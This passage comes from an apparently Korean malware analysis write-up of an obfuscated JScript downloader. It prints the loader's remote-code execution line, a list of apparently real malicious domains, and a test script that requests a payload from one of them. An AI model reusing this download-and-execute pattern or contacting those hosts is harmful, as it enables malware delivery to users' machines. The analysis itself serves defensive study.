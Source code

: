 해당 사이트들에 접속해서 contents(Execute할 Code)를 Parse해 온다.

```javascript
FQ96[3](fS85)();
WScript.Quit();
```

이후 FQ96[3]에 contents를 넘기고 스크립트는 끝이난다.

웹사이트 파싱을통해 새로운 Script를 로드해 실행하는것이다.



**하지만.....**

```javascript
Za84 = ["www.test.wynajem-lcd.pl", "www.o4j.de", "www.be-and-do.com"];
```

```javascript
Za84 = ["www.test.wynajem-lcd.pl", "www.o4j.de", "www.be-and-do.com"];
Wr86 = WScript.CreateObject('MSXML2.ServerXMLHTTP');
yY44 = Math.random().toString()["substr"](2, 70 + 30);
Wr86.open('GET', 'http://' + Za84[0] + '/forum.php?ehhtlxeegbuni=' + yY44, false);
Wr86.send();

WScript.Echo(Wr86.responseText);
```

실제로 해당 스크립트를 Run해보면, 출력되는 메세지는 ""이다.

서버는 열려있으나 이후 추가적으로 실행되는 악성 JS코드는 노출이 되지 않았다.

FQ96[3]를 통해 코드를 실행 하는데, 실행할 코드가 없으므로 더이상 분석이 불가능했다.



해당 악성코드에 대한 추측을 해 보자면,

아까 생성한 Hv129167.tmp파일에 악성바이너리를 덮어 실행하는 행위지 않을까 싶다.

악성바이너리 까지 분석 해 보고싶었는데 악성 JS코드 노출이 되지않아 많이 아쉬웠다.